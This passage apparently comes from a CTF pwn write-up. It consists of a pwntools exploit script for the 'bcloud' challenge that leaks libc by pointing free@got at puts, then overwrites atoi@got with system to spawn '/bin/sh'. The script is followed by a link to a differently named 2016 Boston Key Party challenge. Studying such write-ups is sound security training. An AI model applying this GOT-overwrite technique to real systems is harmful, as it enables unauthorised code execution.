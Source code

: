 ```python
    # set notelist[0] = free@got, notelist[1]= notelist[2]=atoi@got
    p.sendlineafter('option--->>', '1')
    p.sendlineafter('Input the length of the note content:\n', str(1000))

    payload = p32(16) * 3 + (notelist_addr - notesize_addr - 12) * 'a' + p32(
        bcloud.got['free']) + p32(bcloud.got['atoi']) * 2
    p.sendlineafter('Input the content:\n', payload)

    # overwrite free@got with puts@plt
    p.sendlineafter('option--->>', '3')
    p.sendlineafter('Input the id:\n', str(0))
    p.sendlineafter('Input the new content:\n', p32(bcloud.plt['puts']))

    # leak atoi addr by fake free
    p.sendlineafter('option--->>', '4')
    p.sendlineafter('Input the id:\n', str(1))
    atoi_addr = u32(p.recv(4))
    libc_base = atoi_addr - libc.symbols['atoi']
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base addr: ' + hex(libc_base))

    # overwrite atoi@got with system
    p.sendlineafter('option--->>', '3')
    p.sendlineafter('Input the id:\n', str(2))
    p.sendlineafter('Input the new content:\n', p32(system_addr))

    # get shell
    p.sendlineafter('option--->>', '/bin/sh\x00')
    p.interactive()


if __name__ == "__main__":
    exp()
```



## 题目

- [2016 Boston Key Party CTF cookbook](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/cookbook-6)
